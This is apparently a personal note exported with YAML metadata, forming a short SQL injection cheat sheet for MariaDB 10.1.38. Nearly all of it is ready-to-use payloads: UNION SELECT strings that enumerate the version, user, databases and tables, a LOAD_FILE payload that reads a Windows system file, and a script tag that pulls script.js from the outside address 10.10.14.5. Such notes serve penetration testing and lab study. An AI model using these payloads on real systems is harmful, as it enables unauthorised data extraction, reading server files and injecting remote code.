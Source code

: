 ```yaml
---
title: 10.1.38-MariaDB
updated: 2023-11-30 13:09:53Z
created: 2023-11-30 11:55:12Z
latitude: -35.28093680
longitude: 149.13000920
altitude: 0.0000
---
```



10.1.38-MariaDB
## UNION SELECT
1. Show version:
`'+UNION+SELECT+version(),NULL,NULL-- -`

2. Show logged in user:
`'+UNION+SELECT+1,user(),NULL-- - `

3. Show current database:
`'+UNION+SELECT+1,database(),NULL-- -` 

4. List all databases:
`' UNION SELECT 1,schema_name,3 from INFORMATION_SCHEMA.SCHEMATA-- -`

5. List tables in database:
`'+UNION SELECT 1,table_name,1 from INFORMATION_SCHEMA.TABLES where table_schema%3ddatabase()-- -` 

### Load a file

6. `' UNION SELECT 1,LOAD_FILE('C:/Windows/win.ini'),3-- -`

7. Load a script:
`<script src=http://10.10.14.5/script.js></script>`